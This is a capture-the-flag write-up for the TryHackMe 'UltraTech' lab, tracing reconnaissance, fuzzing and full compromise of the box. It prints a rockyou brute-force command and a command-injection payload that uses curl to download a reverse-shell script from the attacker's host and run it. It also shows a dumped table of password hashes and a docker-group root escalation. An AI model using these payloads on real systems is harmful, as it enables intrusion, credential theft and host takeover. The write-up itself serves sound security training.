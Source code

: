 # [UltraTech](https://tryhackme.com/room/ultratech1)

First as usual, `nmap`

```
# Nmap 7.92 scan initiated Sat Oct  2 13:00:51 2021 as: nmap -vvv -p 22,21,8081,31331 -sCV -oA init 10.10.25.87
Nmap scan report for box.ip (10.10.25.87)
Host is up, received conn-refused (0.22s latency).
Scanned at 2021-10-02 13:00:52 +07 for 23s

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3
8081/tcp  open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 15C1B7515662078EF4B5C724E2927A96
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 13:01:15 2021 -- 1 IP address (1 host up) scanned in 24.02 seconds
```

We can't log into FTP anonymously. We have a couple of web services on ports 8081 and 31331. The service on port 8081 seems to be an api, while the one on port 31331 is a normal web site. I tried fuzzing the API parameter.

```sh
$ ffuf -u "http://box.ip:8081/?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/api/api-seen-in-wild.txt -fs 20
```

That, however, returns nothing. Fuzzing the website on port 31331 for directories, we have some interesting results.

```sh
$ gobuster dir -u http://box.ip:31331/ -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html -r
/images               (Status: 200) [Size: 4164]
/partners.html        (Status: 200) [Size: 1986]
/index.html           (Status: 200) [Size: 6092]
/css                  (Status: 200) [Size: 1132]
/js                   (Status: 200) [Size: 1317]
/javascript           (Status: 403) [Size: 295]
/what.html            (Status: 200) [Size: 2534]
/server-status        (Status: 403) [Size: 297]
```

Besides the found directories, we have `robots.txt` whose content is as follows.

```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

Going to `/utech_sitemap.txt` gives us a few more pages.

```
/
/index.html
/what.html
/partners.html
```

All were found in our `gobuster` result, though now we have an idea of what pages to target.

Looking around the source code of `/index.html`, the only interesting thing is the email `ultratech@yopmail.com` which we might be able to use to log in or something. `/what.html` has nothing useful. `/partners.html` is a login page. With the previously found email, we can brute-force the password.

```sh
$ ffuf -u "http://box.ip:8081/auth?login=ultratech%40yopmail.com&password=FUZZ" -w ~/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt -fr "Invalid credentials"
```

This, however, gives us nothing. The API on port 8081 was used for login, and there may be more endpoints so we fuzz for those.

```sh
$ gobuster dir -u http://box.ip:8081/ -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
/Ping                 (Status: 500) [Size: 1094]
/Auth                 (Status: 200) [Size: 39]
```

Looking at `/ping`, when a basic request is sent (no parameters), we get an HTTP 500 error and some debug output.

```
TypeError: Cannot read property 'replace' of undefined
    at app.get (/home/www/api/index.js:45:29)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/api/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
    at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
    at /home/www/api/node_modules/cors/lib/index.js:224:17
```

Looks like `replace` is run on a parameter which is to be submitted but we don't know what its name is, so we fuzz for it.

```sh
$ ffuf -u "http://box.ip:8081/ping?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/api/api-seen-in-wild.txt
$ ffuf -u "http://box.ip:8081/ping?FUZZ=test" -w ~/tools/SecLists/Discovery/Web-Content/api/api-seen-in-wild.txt -mc 500 -fs 1094
```

That, however, gives us nothing. Going back to the service on port 31331, looking around at the files, we see that `/js/api.js` makes a request to the `/ping` endpoint.

```javascript
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Replicating the code, we can make a request to `ping` our machine.

```sh
curl 'http://box.ip:8081/ping?ip=YOUR_IP'
```

The output looks like that from a Linux's `ping` command. We can try command injection to get a shell. After some testing, I found the following to work.

1. Create `shell.sh` with a reverse shell in it and host it (`python3 -m http.server`)
2. ``http://box.ip:8081/ping?ip=`curl%2010.17.21.200:8000/shell.sh%20-o%20shell.sh` ``
3. ``http://box.ip:8081/ping?ip=`bash%20shell.sh` ``

With that, we should have a shell as `www`. Looking around the landing directory `/home/www/api`, we have the file `utech.db.sqlite` which we can download to our local machine and dump.

```sql
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
            login Varchar,
            password Varchar,
            type Int
        );
INSERT INTO users VALUES('admin','0d0ea5111e3c1def594c1684e3b9be84',0);
INSERT INTO users VALUES('r00t','f357a0c52799563c7c7b76c1e7543a32',0);
COMMIT;
```

We have a couple of MD5 hashes which can be cracked on [crackstation](https://crackstation.net/). Looking at `/etc/passwd` ...

```sh
www@ultratech-prod:~/api$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
lp1:x:1000:1000:lp1:/home/lp1:/bin/bash
r00t:x:1001:1001::/home/r00t:/bin/bash
www:x:1002:1002::/home/www:/bin/sh
```

... we see that we only have the user `r00t` and not `admin`, so we `su r00t` with the cracked password and get a shell as `r00t`.

Looking at our groups ...

```sh
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

... we see that we're in the `docker` group. Checking the images ...

```sh
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        2 years ago         15.8MB
```

... we have an image ready to be deployed. Following [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#docker-group), we can mount the root file system on a docker instance and read from and write to everything.

```sh
docker run -it --rm -v /:/mnt bash chroot /mnt bash
```

We can then write our own SSH to root's `authorized_keys` and get a root shell on the machine.
